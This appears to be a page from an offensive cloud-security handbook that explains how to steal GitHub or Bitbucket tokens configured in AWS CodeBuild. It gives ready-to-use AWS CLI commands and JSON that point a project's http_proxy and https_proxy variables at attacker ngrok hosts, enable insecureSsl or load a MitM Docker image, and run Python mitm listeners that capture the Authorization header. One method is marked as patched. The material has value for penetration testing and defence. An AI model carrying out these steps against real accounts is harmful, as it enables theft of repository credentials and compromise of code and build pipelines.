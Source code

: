 # AWS Codebuild - Token Leakage

## Recover Github/Bitbucket Configured Tokens

First, check if there are any source credentials configured that you could leak:

```bash
aws codebuild list-source-credentials
```

### Via Docker Image

If you find that authentication to for example Github is set in the account, you can **exfiltrate** that **access** (**GH token or OAuth token**) by making Codebuild to **use an specific docker image** to run the build of the project.

For this purpose you could **create a new Codebuild project** or change the **environment** of an existing one to set the **Docker image**.

The Docker image you could use is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). This is a very basic Docker image that will set the **env variables `https_proxy`**, **`http_proxy`** and **`SSL_CERT_FILE`**. This will allow you to intercept most of the traffic of the host indicated in **`https_proxy`** and **`http_proxy`** and trusting the SSL CERT indicated in **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
   - Follow the instructions of the repo to set your proxy IP address and set your SSL cert and **build the docker image**.
     - **DO NOT SET `http_proxy`** to not intercept requests to the metadata endpoint.
   - You could use **`ngrok`** like `ngrok tcp 4444` lo set the proxy to your host
   - Once you have the Docker image built, **upload it to a public repo** (Dockerhub, ECR...)
2. **Set the environment**
   - Create a **new Codebuild project** or **modify** the environment of an existing one.
   - Set the project to use the **previously generated Docker image**

![](../../../../images/image (23).png)

3. **Set the MitM proxy in your host**

- As indicated in the **Github repo** you could use something like:

```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```

> [!TIP]
> The **mitmproxy version used was 9.0.1**, it was reported that with version 10 this might not work.

4. **Run the build & capture the credentials**

- You can see the token in the **Authorization** header:

  ![](../../../../images/image (273).png)

This could also be done from the aws cli with something like

```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
    "name": "my-demo-project",
    "source": {
        "type": "GITHUB",
        "location": "https://github.com/uname/repo",
        "buildspec": "buildspec.yml"
    },
    "artifacts": {
        "type": "NO_ARTIFACTS"
    },
    "environment": {
        "type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
        "image": "docker.io/carlospolop/docker-mitm:v12",
        "computeType": "BUILD_GENERAL1_SMALL",
        "imagePullCredentialsType": "CODEBUILD"
    }
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```

### Via insecureSSL

**Codebuild** projects have a setting called **`insecureSsl`** that is hidden in the web you can only change it from the API.\
Enabling this, allows to Codebuild to connect to the repository **without checking the certificate** offered by the platform.

- First you need to enumerate the current configuration with something like:

```bash
aws codebuild batch-get-projects --name <proj-name>
```

- Then, with the gathered info you can update the project setting **`insecureSsl`** to **`True`**. The following is an example of my updating a project, notice the **`insecureSsl=True`** at the end (this is the only thing you need to change from the gathered configuration).
  - Moreover, add also the env variables **http_proxy** and **https_proxy** pointing to your tcp ngrok like:

```bash
aws codebuild update-project --name <proj-name> \
    --source '{
        "type": "GITHUB",
        "location": "https://github.com/carlospolop/404checker",
        "gitCloneDepth": 1,
        "gitSubmodulesConfig": {
            "fetchSubmodules": false
        },
        "buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
        "auth": {
            "type": "CODECONNECTIONS",
            "resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
        },
        "reportBuildStatus": false,
        "insecureSsl": true
    }' \
    --environment '{
        "type": "LINUX_CONTAINER",
        "image": "aws/codebuild/standard:5.0",
        "computeType": "BUILD_GENERAL1_SMALL",
        "environmentVariables": [
            {
                "name": "http_proxy",
                "value": "http://2.tcp.eu.ngrok.io:15027"
            },
            {
                "name": "https_proxy",
                "value": "http://2.tcp.eu.ngrok.io:15027"
            }
        ]
    }'
```

- Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http_proxy and https_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="127.0.0.1",
    port=4444,
    protocols=[protocol.HTTP],
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

- Finally, click on **Build the project**, the **credentials** will be **sent in clear text** (base64) to the mitm port:

![](../../../../images/image (1) (1).png)

### ~~Via HTTP protocol~~

> [!TIP] > **This vulnerability was corrected by AWS at some point the week of the 20th of Feb of 2023 (I think on Friday). So an attacker can't abuse it anymore :)**

An attacker with **elevated permissions in over a CodeBuild could leak the Github/Bitbucket token** configured or if permissions was configured via OAuth, the **temporary OAuth token used to access the code**.

- An attacker could add the environment variables **http_proxy** and **https_proxy** to the CodeBuild project pointing to his machine (for example `http://5.tcp.eu.ngrok.io:14972`).

![](../../../../images/image (232).png)

![](../../../../images/image (213).png)

- Then, change the URL of the github repo to use HTTP instead of HTTPS, for example: `http://github.com/carlospolop-forks/TestActions`
- Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http_proxy and https_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="0.0.0.0",
    port=4444,
    protocols=[protocol.HTTP],
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

- Next, click on **Build the project** or start the build from command line:

```sh
aws codebuild start-build --project-name <proj-name>
```

- Finally, the **credentials** will be **sent in clear text** (base64) to the mitm port:

![](../../../../images/image (159).png)

> [!WARNING]
> Now an attacker will be able to use the token from his machine, list all the privileges it has and (ab)use easier than using the CodeBuild service directly.

